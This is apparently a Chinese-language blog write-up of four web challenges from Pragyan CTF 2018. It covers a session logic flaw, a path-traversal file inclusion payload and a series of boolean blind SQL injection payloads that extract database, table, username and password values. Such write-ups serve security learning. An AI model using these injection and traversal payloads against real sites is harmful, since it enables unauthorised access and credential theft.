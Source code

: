 ```yaml
---
layout: post
title: "pragyan ctf writeup"
date: 2018-03-04 23：40
categories: jekyll update
---
```


## 前言
&emsp;&emsp;这场CTF由于时间紧张，所以只做了web题，比赛中也只做出两题，其余两题为比赛结束后参考writeup进行复现并记录。

### 1、web1：Unfinished business
<div align="center">
    <img src="/images/posts/pragyan/1.png" >  
</div>
&emsp;&emsp;自己做的时候没做出来，用的是burp suite抓包，但没看出什么东西，然后再看别人的writeup复现。
登陆的时候勾选admin，然后用`owasp zap`抓包看一下，也正是这个工具在这题中运用得比较好。很容易就看到了flag。
<div align="center">
    <img src="/images/posts/pragyan/2.png" >  
</div>
&emsp;&emsp;所以flag：pctf{y0u=Sh0Uldn'1/h4v3*s33n,1his.:)}

### 2、web2：Authenticate your way to admin
<div align="center">
    <img src="/images/posts/pragyan/3.png" >  
</div>
&emsp;&emsp;关键点在于它在`还没验证账号是否正确`的情况下将identifier存入$_SESSION[‘id’]。
<div align="center">
    <img src="/images/posts/pragyan/4.png" >  
</div>
&emsp;&emsp;所以，第一次我们用正常的账号密码登陆以绕过homepage.php的登陆检验。
<div align="center">
    <img src="/images/posts/pragyan/5.png" >  
</div>
&emsp;&emsp;然后第二次我们用admin登陆，这里虽然会`返回错误`，但在上面已经提到，它是在`验证前`就更新了$_SESSION[‘id’]。
<div align="center">
    <img src="/images/posts/pragyan/6.png" >  
</div>
&emsp;&emsp;所以，再次刷新原来登陆后的页面时，你的$_SESSION[‘id’]就被替换成了`admin`。最终拿到flag。
<div align="center">
    <img src="/images/posts/pragyan/7.png" >  
</div>
&emsp;&emsp;所以flag：pctf{4u1h3ntic4Ti0n.4nd~4u1horiz4ti0n_diff3r}

### 3、web3：El33t Articles Hub
&emsp;&emsp;这道题比赛时也没解出来，现在拿着writeup复现一下。
<div align="center">
    <img src="/images/posts/pragyan/8.png" >  
</div>
&emsp;&emsp;上来看到这个猜测十有八九就是`文件包含`，但将常见的文件包含跟绕过试了一遍都`没有`结果。所以这道题就进展不下去。

&emsp;&emsp;看到writeup后才发现关键点不在这个url，在查看`网页源代码`的时候会发现两个`带下划线`的url，`经自己不成熟总结，一般这样的链接都有猫腻。。。`而且可以发现标题的图标也一直在变，仿佛在提醒你。。。
<div align="center">
    <img src="/images/posts/pragyan/9.png" >  
</div>
&emsp;&emsp;做题的时候直接访问是一张正常的图片，但将`id=x`代入，并且查看源代码时，你就会发现hint。
<div align="center">
    <img src="/images/posts/pragyan/10.png" >  
</div>
&emsp;&emsp;发现这又是一个文件包含，并且`能包含php`。所以查看index.php的代码。
<div align="center">
    <img src="/images/posts/pragyan/11.png" >  
</div>
&emsp;&emsp;helpers.php的代码
<div align="center">
    <img src="/images/posts/pragyan/12.png" >  
</div>
&emsp;&emsp;此时就能清晰的看到flag的位置，但因为id这里`不能包含txt文件`，所以只能回到file包含里。然后构造payload：
```shell
.....///secret/./flag_7258689d608c0e2e6a90c33c44409f9d
```
<div align="center">
    <img src="/images/posts/pragyan/13.png" >  
</div>
&emsp;&emsp;故flag：pctf{1h3-v41id41i0n_SuCk3d~r34l-baD}

### 4、web4：Animal Spy Database
```
Poc：1' or 1=1 -- +（返回正确）；1' or 1=2 -- +（返回错误）
```
&emsp;&emsp;说明有注入，再进一步可以测出是`盲注`。

&emsp;&emsp;其实，你测到后面会发现，题干中已经给了你表名，字段了。
<div align="center">
    <img src="/images/posts/pragyan/14.png" >  
</div>
&emsp;&emsp;当然，你也可以用
```
查询数据库长度：
1' or (length(database()))=12 -- +
数据库：
1' or (ascii(substr(database(),1,1)))>100 -- +
表名：
1' or (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))>100 -- +
字段：
1' or (ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)))>100 -- +
```
&emsp;&emsp;所以最终的Payload：
```
1' or (ascii(substr(( select username from users limit 0,1),1,1)))>68 -- +
```
&emsp;&emsp;注入出username字段的值就是`admin`。

&emsp;&emsp;再将password注入出来，Payload：
```
1' or (ascii(substr(( select password from users limit 0,1),1,1)))>68 -- +
```
&emsp;&emsp;所以最终flag：pctf{L31's~@Ll_h4il-1h3-c4T_Qu33n.?}


